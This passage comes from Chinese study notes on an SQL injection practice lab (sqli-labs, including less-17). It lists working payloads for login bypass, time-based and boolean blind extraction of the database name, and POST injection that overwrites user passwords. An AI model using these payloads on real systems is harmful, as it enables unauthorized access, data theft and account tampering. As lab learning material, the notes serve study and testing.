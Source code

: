 ```
实际上是：

```
select username,password from table1 where username=("") or ("1")=("1") and password=("") or ("1")=("1") limit 0,1;
```



或：

```
") or sleep(5) #
") and sleep(5) #
```

也可以穷举：

```
admin") and sleep(5) #
```

也可以猜：

```
admin") and (select database()='security') #

admin") and if(ascii(substr(database(),1,1))=115,sleep(10),null) #
```

```
") or if(ascii(substr(database(),1,1))=115,sleep(10),null) #
```





布尔型盲注最好先猜出他们网站有什么用户名，以一个正确的用户名来当参照
admin") and (select database()='security') #





### post注入修改密码（危害性大，不建议做）

**靶场less-17**

![image-20220114222534038](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114222534038.png)



**sql语法里的“改”**:

```
update users set password='$pass' where username='Dumb';
```

推测闭合方式——使用万能密码——把密码改为空或者1

```
' or 1=1 #
```

```